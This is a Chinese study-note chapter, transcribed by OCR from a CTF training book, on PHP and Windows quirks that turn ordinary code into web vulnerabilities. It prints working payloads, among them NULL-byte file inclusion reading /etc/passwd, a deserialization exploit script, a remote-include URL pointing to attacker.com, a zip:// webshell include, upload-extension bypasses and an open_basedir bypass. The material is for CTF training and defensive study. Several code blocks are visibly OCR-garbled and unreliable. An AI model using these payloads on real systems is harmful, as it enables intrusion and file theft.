

???+ abstract "本章摘要"
    本章讲解如何利用语言与系统自身的「特性」把普通代码变成高危漏洞，核心是 PHP 语言特性（==弱类型比较、反序列化 magic 函数、NULL 截断、伪协议、变量覆盖、open_basedir/disable_function 绕过==）与 Windows 系统特性（短文件名、文件上传后缀绕过）两大块。
## 章节导航

上一篇：第4章 SQL注入与防护
下一篇：第6章 逻辑漏洞
回到目录：[00-目录](00-目录.md)

在不同的环境中，相同的代码可能会给出不同的运行结果。一名好的程序开发者往往会考虑到各种环境因素，写出兼容性更好的代码；而作为一名安全测试人员，利用环境带来的tricks，也会让一行普通代码变成一个高危漏洞。

## 5.1 PHP语言特性

PHP作为“世界上最好的语言”，其应用场景相当广泛，同时也是CTF的Web题目中出现次数非常多的一门语言。

### 5.1.1 弱类型

首先，我们需要知道PHP语言中一些相等的值，如：

» =='' == 0 == false==
» '123' == 123
» 'abc' == 0
» '123a' == 123
» '0x01' == 1
» '0e123456789' == '0e987654321'
» ==[false] == [0] == [NULL] == ['']==
» NULL == false == 0
» true == 1

在PHP语言中，比较两个值是否相等可以用“==”和“===”两种符号。前者会在比较的时候自动进行类型转换而不改变原来的值，所以存在漏洞的位置所用的往往是“==”。其中一个常见的错误用法就是：

```php
if ($input == 1) {
    敏感逻辑操作；
}
```

这个时候，如果input变量的值为1abc，则比较的时候1abc会被转换为1，if语句的条件满足，进而造成其他的漏洞。另一个常见的场景

是在运用函数的时候，参数和返回值经过了类型转换造成漏洞。下面我们再来看一道真题：

```php
if ($GET['a'] != $GET['b'] &&
md5($GET['a']) == md5($GET['b%（）)) {
    echo $flag;
}
```

[笔记注：原文 `$GET` 疑为 `$_GET`，`$GET['b%（）))` 疑为 `$_GET['b']))`，均系 OCR 错字，代码围栏内按原文逐字保留。]

如何才能满足这样一个if判断条件呢？需要使两个变量值不相等而MD5值相等。这样的思路可以通过MD5碰撞来解决

（https://goo.gl/KV5ZQn）。让我们的思路回到PHP语言，MD5函数的返回值是一个32位的字符串，如果这个字符串以“0e”开头的话，类型转换机制会将它识别为一个科学计数法表示的数字“0”。下面给出两个MD5以0e开头的字符串：

```text
'aabg7XSs' => '0e087386482136013740957780965295'
'aabC9RqS' => '0e041022518165728065344349536299'
```

提交这两个字符串即可绕过判断。然后我们再来看一下上面示例题目的2.0版：

```php
if ($GET['a'] != $GET['b'] &&
md5($GET['a']) === md5($GET['b%（）)) {
    echo $flag;
}
```

[笔记注：同上，`$GET`、`$GET['b%（）))` 系 OCR 错字，围栏内按原文逐字保留。]

当我们将“==”更换为“===”之后（如上方的代码），刚才的两个字符串就不能成功了。但是，我们仍然可以继续利用PHP语言函数错误处理上的特性，在URL栏提交a[]=1&b[]=2成功绕过。因为当我们令MD5函数的参数为一个数组的时候，函数会报错并返回NULL值。虽然函数的参数是两个不同的数组，但函数的返回值是相同的NULL，在这里就是利用这一点巧妙地绕过了判断。

同样在程序返回值中容易判断错误的函数还有很多，如strpos，见PHP手册：

```text
(PHP 4, PHP 5, PHP 7)
strpos -- 查找字符串首次出现的位置
if(strpos($str1,$str2)==false) { //当str1中不包含str2的时候
敏感逻辑操作;
}
```

这也是一种经常能见到的写法，当str1在str2开头时，函数的返回值是0，而0==false是成立的，这就会造成开发者逻辑之外的结果。

???+ tip "本节要点"
    1. ==「==」比较会自动做类型转换==，「===」不做，漏洞总出在「==」上；
    2. 数字开头的字符串（如 `1abc`）与数字比较会被截断成数字再比；
    3. MD5 以 `0e` 开头会被当成科学计数法数字 `0`，可与 `==` 配合绕过；
    4. `===` 严格比较下，可让 MD5 参数传数组数组、函数报错返回 NULL，用两边同为 NULL 绕过；
    5. `strpos` 在 str1 以 str2 开头时返回 0，`0==false` 成立，导致逻辑误判。
### 5.1.2 反序列化漏洞

PHP提供serialize和unserialize函数将任意类型的数据转换成string类型或者从string类型还原成任意类型。当unserialize函数的参数被用户控制的时候就会形成反序列化漏洞。

与之相关的是PHP语法中的类，PHP的类中可能会包含一些特殊的函数，名为magic函数，magic函数的命名方式是以符号“_”开头的，比如__construct、__destruct、__toString、__sleep、__wakeup等。这些函数在某些情况下会被自动调用。

为了更好地理解magic函数是如何工作的，我们可以自行创建一个PHP文件，并在当中增加三个magic函数：__construct、__destruct和__toString，图5-1为测试代码和执行结果。

{ width="100%" }


<div style="text-align: center;">图5-1 magic函数调用示例</div>


可以看出，__construct在对象创建时被调用，__destruct在PHP脚本结束时被调用，__toString在对象被当作一个字符串使用时被调用。如果我们在反序列化的时候加入一个类，并控制类中的变量值，那么结合具体的代码就能够执行magic函数里的危险逻辑了。如NJCTF2017出过的一道题目，源码如下：

```php
{
    return highlight_file('hiehiehie.txt',
    true).highlight_file($this->source, true);
}
//.....
?>
```

[笔记注：原文 `___toString()` 疑为 `__toString()`，上文代码块为题目源码片段（原文从 `{` 起截断，前面类声明部分未给出），围栏内按原文逐字保留。]

页面的功能是将从cookie中反序列化过后的对象打印出来，这样___toString()函数就会在打印的时候被调用。在本地生成filelist对象的时候，可以将source变量的值设置为想要读取的文件名，序列化后再提交即可。生成序列化字符串的代码如下：

```php
<?php
Class filelist{
    public function __toString()
    {
        return highlight_file('hiehiehie.txt',
        true).highlight_file($this->source, true);
    }
}
$f=new filelist();
$f->source="/etc/passwd";
print_r(serialize($f));

```

将打印出来的字符串作为参数提交，即可读取/etc/passwd文件。

如果代码量复杂，使用了大量的类，往往需要构造ROP链来进行利用，可以参考phithon对joomla漏洞的分析，链接地址为：

https://www.leavesongs.com/PENETRATION/joomla-unserialize-code-execute-vulnerability.html。

???+ tip "本节要点"
    1. serialize/unserialize 负责任意类型与 string 互转，==unserialize 参数可控即成反序列化漏洞==；
    2. magic 函数以 `_` 开头，会在特定时机自动调用：__construct 创建时、__destruct 脚本结束时、__toString 当字符串用、__sleep/__wakeup 序列化相关；
    3. 反序列化时注入一个类并控制其变量值，即可触发类中 magic 函数的危险逻辑；
    4. 大量类时需构造 POP 链（原文写作 ROP 链），可参考 phithon 的 joomla 反序列化分析。
### 5.1.3 截断

NULL字符截断是最有名的截断漏洞之一，其原理是，PHP内核是由C语言实现的，因此使用了C语言中的一些字符串处理函数，在遇到NULL(\x00)字符的时候，处理函数就会将它当作结束标记。这个漏洞能够帮助我们去掉变量结尾处不想要的字符，代码如下：

```php
<?php
$file = $_GET['file');
include $file.'.tpl.html';

```

[笔记注：原文 `$_GET['file');` 引号不匹配（`[` 与 `')`），系 OCR 错字，疑为 `$_GET['file'];`，围栏内按原文逐字保留。]

按照正常的程序逻辑来说，这段代码并不能直接包含任意文件。但是在NULL字符的帮助下，我们只需要提交：

```text
?file=../../etc/passwd%00
```

即可读取到passwd文件，与之类似的是利用路径的长度绕过。比如：

```text
?file=.../..././///////{*N}/etc/passwd
```

系统在处理过长的路径时会选择主动截断它。不过这两个漏洞已经随着PHP版本的更新而消逝了，真正遇到这种情况的机会已经越来越

少。

另一个能造成截断的情况是不正确地使用iconv函数：

```php
<?php
$file = $_GET['file']..tpl.html';
include(iconv("UTF-8", "gb2312", $file));

```

[笔记注：原文 `$file = $_GET['file']..tpl.html';` 中含 `..`，疑为 `$_GET['file'].'.tpl.html';`（连接符 + 引号被 OCR 误识），围栏内按原文逐字保留。]

在遇到file变量中包含非法utf-8字符的时候，iconv函数就会截断这个字符串。

在这个场景之中，我们只需提交“?file=shell.jpg%ff”即可，因为在utf-8字符集中单个“\x80-\xff”都是非法的。这个漏洞只在Windows系统中存在，在新版本的PHP中也已经得到修复。

???+ tip "本节要点"
    1. NULL 截断原理：PHP 内核是 C 实现，C 字符串函数遇 `\x00` 当作结束符；
    2. `?file=../../etc/passwd%00` 可让 `include $file.'.tpl.html'` 忽略结尾拼接；
    3. 过长的路径会被系统主动截断，同样可利用；
    4. iconv 转码时遇非法 utf-8 字符（`\x80-\xff`）会截断，`?file=shell.jpg%ff` 可截断 `.php` 后缀，仅 Windows 有效；
    5. NULL 截断与长路径截断已随 PHP 版本更新失效。
### 5.1.4 伪协议

截断漏洞在新版本的PHP中往往难以奏效，不过在上一部分的两个例子中，我们还能通过伪协议去绕过。但这种情况只适用于我们能控制include指令参数的前半部分的时候。如果在php.ini的设置中让allow_url_include=1，即允许远程包含的时候，我们可以令参数为：

```text
?file=http://attacker.com/shell.jpg
```

这样，PHP服务会从攻击者的服务器上取得shell.jpg并包含。如果我们能上传自定义图片的话，那么我们可以将webshell改名为shell.php并压缩成zip上传，然后再利用zip协议包含：

```text
?file=zip://uploads/random.jpg%23shell.php
```

这样即可包含到shell。与zip协议效果相同的还有phar协议。

除此之外，我们还能通过伪协议读取到部分文件。在上面的例子中，如果服务器上有一个index.php，那么我们可以令参数为：

然后，就能在页面中得到index.php文件源码base64编码后的字符串了。

[OCR存疑：原文此处「令参数为：」之后缺失具体 payload（应为 `php://filter` 的 base64 读源码 payload），原文未给出，不补写。]

???+ tip "本节要点"
    1. 截断失效时可用伪协议绕过，前提是能控制 include 参数前半部分；
    2. `allow_url_include=1` 时可用 `http://` 远程包含；
    3. 把 webshell 改名 shell.php 压缩成 zip 上传，再用 `zip://`（`%23` 转义 `#`）包含；
    4. phar 协议效果与 zip 相同；`php://filter` 可读文件源码的 base64。
### 5.1.5 变量覆盖

变量覆盖漏洞通常是使用外来参数替换或初始化程序中原有变量的值，在CTF比赛中一般要配合题目的代码逻辑或其他漏洞来进行攻击。本节将会为大家介绍3种可以导致变量覆盖漏洞的情形。

### （1） 函数使用不当

a）extract函数

考虑如下代码：

```php
<?php
$auth = false;
extract($GET);
if ($auth) {
    echo "flag{...}";
} else {
    echo "Access Denied.";
}
?>

```

[笔记注：原文 `extract($GET)` 疑为 `extract($_GET)`，系 OCR 少了下划线，围栏内按原文逐字保留。]

此处的extract函数将GET传入的数据转换为变量名和变量的值，所以这里构造如下Payload即可将$auth的值变为true并获得flag：

```text
?auth=1
```

b) parse_str函数

考虑如下代码：

```php
<?php
$auth = false;
parse_str($_SERVER['QUERY_STRING]);
if ($auth) {
    echo "flag{...}";
} else {
    echo "Access Denied.";
}
?>

```

[笔记注：原文 `parse_str($_SERVER['QUERY_STRING]);` 引号不匹配，疑为 `parse_str($_SERVER['QUERY_STRING']);`，围栏内按原文逐字保留。]

此处的parse_str函数同样也是将GET传入的字符串解析为变量，所以Payload与上方extract函数的Payload一样。

c) import_request_variables 函数

考虑如下代码：

```php
<?php
$auth = false;
import_request_variables('G');
if ($auth) {
    echo "flag{...}";
} else {
    echo "Access Denied.";
}
?>

```

此处，import_request_variables函数的值由G、P、C三个字母组合而成，G代表GET，P代表POST，C代表Cookies。排在前面的字符会覆盖排在后面的字符传入参数的值，如，参数为“GP”，且GET和POST同时传入了auth参数，则POST传入的auth会被忽略。

需要注意的是，这个函数自PHP 5.4起就被移除了，如果需要测试上方的代码请安装版本号大于等于4.1小于5.4的PHP环境。

### （2） 配置不当

在PHP版本号小于5.4的时候，还存在配置问题导致的全局变量覆盖漏洞。当PHP配置register_globals=ON时便可能出现该漏洞，考虑如下代码：

```php
<?php
    if ($auth) {
        echo "flag{...};
    } else {
        echo "Access Denied.";
    }
};

```

[笔记注：原文末行 `};` 及 `echo "flag{...};` 引号不匹配系 OCR 错字，围栏内按原文逐字保留。]

利用register_globals的特性，用户传入参数auth=1即可进入if语句块。需要注意的是，如果在if语句前初始化$auth变量，则不会触发这个漏洞。

### （3） 代码逻辑漏洞

在讲述代码逻辑漏洞导致的变量覆盖之前，需要大家先来了解一个知识点，就是PHP中的$$（可变变量）。可变变量可以让一个普通变量的值作为这个可变变量的变量名，读起来有些拗口，如果不能理解，可以参考下面的代码：

```php
<?php
$foo="hello"; //赋值普通变量
$$foo="world"; //使用foo变量的值作为可变变量的变量名
echo "$foo ${$foo};" //输出：hello world
echo "$foo $hello"; //等同于上面的语句，同样输出hello world
?>

```

在新版本PHP移除了前面提到的import_request_variables函数和register_globals选项之后，有些开发者选择使用foreach遍历数组（如，$_GET、$_POST等）来注册变量，这样也会存在变量覆盖漏洞的情况。考虑如下代码：

```php
<?php
$auth = false;
foreach($_GET as $key => $value){
    $$key = $value;
}
if ($auth) {
    echo "flag{...}";
} else {
    echo "Access Denied.";
}
?>

```

此处的foreach循环就将GET传入的参数注册为变量，所以与前面一样，传入“?auth=1”即可绕过判断获得flag。

???+ tip "本节要点"
    1. 变量覆盖 = 外来参数替换/初始化程序原有变量，需配合题目代码逻辑；
    2. 三类成因：函数使用不当（extract / parse_str / import_request_variables）、配置不当（register_globals=ON）、代码逻辑漏洞（foreach + 可变变量 $$）；
    3. import_request_variables 参数由 G/P/C 组合，==排在前面的覆盖后面的==，且 PHP 5.4 起移除；
    4. register_globals=ON 时传 `?auth=1` 直接进 if；若 if 前已初始化 `$auth` 则不触发；
    5. `$$` 可变变量：普通变量的值作为可变变量的变量名，`$$key = $value` 把输入注册成变量。
### 5.1.6 防护绕过

这里主要讲两个经常遇到的防护手段，分别是open_basedir和disable_function。

open_basedir是PHP设置中为了防御PHP跨目录进行文件（目录）读写的方法，所有PHP中有关文件读、写的函数都会经过open_basedir的检查。

其常见的绕过方法有DirectoryIterator+Glob，在目前最新版（v7.2.10）的PHP中，官方并没有修复这个问题，下面附上简单的测试代码（来自phithon）：

```php
<?php
    printf("<b>open_basedir: %s</b><br>";
    ini_get('open_basedir');
    $file_list = array();
    // normal files
    $it = new DirectoryIterator("glob:///*");
    foreach($it as $f) {
        $file_list[] = $f->_toString();
    }
    // special files (starting with a dot(.))
    $it = new DirectoryIterator("glob:///.*");
    foreach($it as $f) {
        $file_list[] = $f->_toString();
    }
    sort($file_list);
    foreach($file_list as $f) {
        echo "{$f}<br/>";
    }
}

```

[笔记注：原文 `printf("<b>open_basedir: %s</b><br>";` 分号位置异常，疑为 `printf("<b>open_basedir: %s</b><br>", ini_get('open_basedir'));` 两行被 OCR 误排；`$f->_toString()` 疑为 `$f->__toString()`。围栏内按原文逐字保留。]

为了防止PHP代码存在漏洞导致操作系统沦陷，很多管理员用disable_function来禁掉一些危险的函数，如system、exec、shell_exec、passthru等，以防止攻击者执行系统命令。

disable_function的绕过方式很灵活，通常依赖于系统层面的漏洞，比如利用shellshock、imagemagick等组件的漏洞进行绕过操作，或者依赖于系统环境，利用环境变量LD_PRELOAD等漏洞进行绕过操作。如果权限足够，还可以尝试使用PHP调用数据库UDF的方法来执行命令。

???+ tip "本节要点"
    1. open_basedir 防御跨目录读写，所有文件读写函数都受其检查；
    2. 绕过 open_basedir 常用 DirectoryIterator+Glob，最新版 PHP（v7.2.10）仍未被官方修复；
    3. disable_function 禁 system/exec/shell_exec/passthru 防止命令执行；
    4. 绕过 disable_function 靠系统层漏洞（shellshock、imagemagick、LD_PRELOAD）或数据库 UDF 提权执行命令。
## 5.2 Windows 系统特性

### 1. 短文件名

Windows以8.3格式生成了与MS-DOS兼容的“短”文件名，以允许基于MS-DOS或16位Windows的程序访问这些文件。在cmd下输入“dir/x”即可看到短文件名的效果。

而在IIS 6环境下，安全研究人员Soroush Dalili发现了一些规则，并利用这些信息枚举到目录下的文件或子目录的前5个字符。具体使用方法的源码可以参考lijiejie的IIS短文件名扫描工具：https://github.com/lijiejie/IIS_shortname_Scanner。

在Windows下的Apache环境里，我们除了能爆破服务器文件，还能通过短文件直接下载长文件。

“discuz的备份文件泄露”就是利用了Windows的短文件名去猜解，这极大地减少了枚举量。

### 2. 文件上传

另一个与文件系统交互相关的功能就是，上传的时候如果以黑名单的形式限制后缀，那么我们可以利用文件系统的特性去绕过。比如以下代码：

```html
<form action=" method="POST" enctype="multipart/form-data">
    <input type="file" name="file">
        <input type="submit" name="submit" value="submit">
    </form>
```

```php
<?php
    error_reporting(1);
    if(isset($_POST['submit》） {
        $name = $_FILES['file']['nameӀ];
        $tempfile = $_FILES['file']['tmp_nameӀ];
        $savefile = "./upload/".$name;
        if(isset(pathinfo($name)['extension']) && pathinfo($name)['extension'] != 'php') {
            if(move_uploaded_file($tempfile, $savefile) {
                die('Success upload path : '.$savefile');
            } else {
                die('Upload failed..');
            }
        }
    };
};

```

[笔记注：此段原文中 `$_POST['submit”）`、`$_FILES['file']['nameӀ]`、`$_FILES['file']['tmp_nameӀ]`、`move_uploaded_file($tempfile, $savefile)` 等多处括号/引号错乱系 OCR 错字，围栏内按原文逐字保留。]

在这段代码中，我们不能上传后缀名为php的文件，但是如果我们在上传的时候在php的后面追加高位字符[\x80-\xff]，这样就可以绕过黑名单的判断而上传成功，上传的文件后缀会去掉[\x80-\xff]。与高位字符具有同样效果的还有“::$data”，后者是利用“:$DATA Alternate Data Stream”，详细建议请参考OWASP。

Windows下还有一个特殊的符号是冒号，如果我们上传的时候将后缀改为“.php：.png”形式，那么在系统中最后得到的将是0字节的php后缀文件，也就是说起到了截断的效果，但是没能成功写入内容。

???+ tip "本节要点"
    1. 8.3 短文件名用于兼容 MS-DOS/16 位程序，`dir/x` 可查看；
    2. IIS 6 短文件名可枚举目录下文件/子目录前 5 个字符，用 lijiejie 的扫描工具；
    3. 黑名单过滤后缀可用==高位字符 `[\x80-\xff]` 或 `::$DATA`==绕过，系统会去掉这些尾部字符；
    4. Windows 冒号 `:` 如 `.php:.png` 可产生 0 字节截断效果（但没有内容）。
## 本章思维导图



## 易错点

!!! warning "易错点"
    1. ==「==」会自动类型转换而「===」不会==，漏洞判断几乎都用「==」；`1abc` 与 1 比较会变成 1，「0e」开头的 MD5 会被当成数字 0。
    2. MD5 绕过 `===` 时，要靠数组参数让函数报错返回 NULL，而不是靠 0e 碰撞。
    3. NULL 截断、长路径截断、iconv 截断都只在老版本/Windows 下有效，新版本 PHP 多数已修复。
    4. import_request_variables 与 register_globals 均需 PHP <5.4，且 register_globals 若 if 前已初始化 `$auth` 则不触发。
??? note "自测题"
    **基础**
    1. PHP 中「==」和「===」在比较时的核心区别是什么？
    2. 为什么 `md5` 值为「0e」开头的两个不同字符串能用 `==` 绕过比较？
    3. strpos 函数在什么情况下会返回 0？这会造成什么逻辑误区？
    4. 常见的 magic 函数有哪些？分别在什么时机被自动调用？
    5. NULL 字符截断的原理是什么？
    6. 变量覆盖漏洞有哪三类成因？各对应哪个函数或配置？
    
    **进阶**
    7. 把 `==` 换成 `===` 后，仍能利用什么 PHP 特性绕过 MD5 比较？为什么？
    8. 上传黑名单限制不能传 .php 文件时，Windows 下有哪些绕过手法？
    9. open_basedir 与 disable_function 分别是防御什么的？各有哪些已知绕过方式？
    10. import_request_variables 的 G/P/C 参数如何决定覆盖优先级？
    
    **参考答案**
    1. 「==」会自动做类型转换再比较，「===」不转换、连同类型一起比较，漏洞总出在「==」。
    2. 以「0e」开头的 32 位字符串会被 PHP 类型转换识别成科学计数法数字 0，两个都等于 0，故 `==` 成立。
    3. 当 str1 以 str2 开头时返回 0，而 `0==false` 成立，导致「不包含」的判断被误判。
    4. __construct（对象创建时）、__destruct（脚本结束时）、__toString（当字符串用时）、__sleep/__wakeup（序列化/反序列化相关）。
    5. PHP 内核是 C 实现，C 字符串处理函数遇到 `\x00` 就当作结束标记，从而忽略其后拼接的字符。
    6. 函数使用不当（extract、parse_str、import_request_variables）、配置不当（register_globals=ON）、代码逻辑漏洞（foreach + 可变变量 $$）。
    7. 传数组 `a[]=1&b[]=2`，MD5 对数组报错并返回 NULL，两边同为 NULL，`===` 也成立。
    8. 后缀追加高位字符 `[\x80-\xff]`（系统会去掉）、`::$DATA`（NTFS 流）、冒号「.php:.png」产生 0 字节截断。
    9. open_basedir 防御跨目录读写（可被 DirectoryIterator+Glob 绕过），disable_function 禁用危险函数防命令执行（可借 shellshock、imagemagick、LD_PRELOAD 或 UDF 绕过）。
    10. 由 G/P/C 组合，排在前面的覆盖后面的：如「GP」时 POST 传的 auth 会被忽略，以 GET 为准。
## 参考资料

- 原书：CTF特训营（FlappyPig战队 著，机械工业出版社 2020）。
- MD5 碰撞参考：https://goo.gl/KV5ZQn
- phithon 对 joomla 反序列化漏洞的分析：https://www.leavesongs.com/PENETRATION/joomla-unserialize-code-execute-vulnerability.html
- lijiejie 的 IIS 短文件名扫描工具：https://github.com/lijiejie/IIS_shortname_Scanner
- DirectoryIterator+Glob 绕过 open_basedir 测试代码（来自 phithon）。

*来源：CTF特训营（FlappyPig战队 著，机械工业出版社 2020），OCR 全内容保留整理版。*
